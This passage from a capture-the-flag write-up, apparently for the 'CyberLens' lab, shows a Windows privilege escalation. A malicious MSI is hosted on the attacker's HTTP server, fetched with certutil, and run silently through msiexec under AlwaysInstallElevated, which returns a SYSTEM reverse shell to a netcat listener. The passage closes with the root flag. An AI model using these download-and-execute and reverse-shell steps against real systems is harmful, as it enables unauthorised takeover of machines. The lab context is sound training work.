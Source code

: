 Now we go back to our Target and download it with our [Server](../../3%20-%20Tags/Hacking%20Concepts/Server.md) :

```
┌──(mdn0x㉿mdn0xKali)-[~/…/CHALLENGES/Easy/Cybelens/web-server]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.60.241 - - [12/Jul/2025 13:48:03] "GET /AlwaysInstallElevated.msi HTTP/1.1" 200 -
10.10.60.241 - - [12/Jul/2025 13:48:05] "GET /AlwaysInstallElevated.msi HTTP/1.1" 200 -

```

```
C:\Users\CyberLens\Desktop>certutil -urlcache -f http://10.8.162.183:80/AlwaysInstallElevated.msi C:\Users\CyberLens\Desktop\AlwaysInstallElevated.msi                                          
certutil -urlcache -f http://10.8.162.183:80/AlwaysInstallElevated.msi C:\Users\CyberLens\Desktop\AlwaysInstallElevated.msi                                                                     
****  Online  ****                                                                              
CertUtil: -URLCache command completed successfully.

```

Now we setup our listener on the port we enter in the [Payload](../../3%20-%20Tags/Hacking%20Concepts/Payload.md) with [Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md) :

```
┌──(mdn0x㉿mdn0xKali)-[~/…/CHALLENGES/Easy/Cybelens/web-server]
└─$ nc -lvnp 4444  

```

And we execute it (the syntax is on the hacking articles site) :

```
C:\Users\CyberLens\Desktop>msiexec /quiet /qn /i AlwaysInstallElevated.msi 
```

And we have it :

```
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Easy/Cybelens]
└─$ nc -lvnp 4444 
listening on [any] 4444 ...
connect to [10.8.162.183] from (UNKNOWN) [10.10.60.241] 49913
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

```

We can search for the root flag :

```
C:\Users\Administrator\Desktop>type admin.txt
type admin.txt
THM{3lev@t3D-4-pr1v35c!}
```
